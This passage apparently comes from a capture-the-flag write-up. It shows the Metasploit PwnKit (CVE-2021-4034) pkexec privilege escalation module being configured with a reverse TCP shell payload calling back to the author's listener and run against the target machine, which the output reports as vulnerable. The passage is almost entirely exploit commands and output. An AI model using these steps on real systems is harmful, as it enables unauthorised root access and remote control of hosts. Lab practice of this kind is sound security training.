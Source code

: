 We will use `cve_2021_4034_pwnkit_lpe_pkexec`.

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > options

Module options (exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PKEXEC_PATH                    no        The path to pkexec binary
   SESSION                        yes       The session to run this module on
   WRITABLE_DIR  /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.8         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   x86_64



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) >
```

```
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LPORT 6666
LPORT => 6666
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LHOST tun0
LHOST => 10.8.100.14
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set payload linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set SESSION 1
SESSION => 1
```

Run!

## root flag

```
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run

[*] Started reverse TCP handler on 10.8.100.14:6666
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.ohjicuha
[+] The target is vulnerable.
[*] Writing '/tmp/.shaouaund/ompkonpncmg/ompkonpncmg.so' (492 bytes) ...
[!] Verify cleanup of /tmp/.shaouaund
[!] Tried to delete /tmp/.ohjicuha/.mroanjse, unknown result
[+] Deleted /tmp/.shaouaund/ompkonpncmg/ompkonpncmg.so
[+] Deleted /tmp/.shaouaund/.frakzskbiuxj
[!] Tried to delete /tmp/.ohjicuha, unknown result
[!] Tried to delete /tmp/.ohjicuha, unknown result
```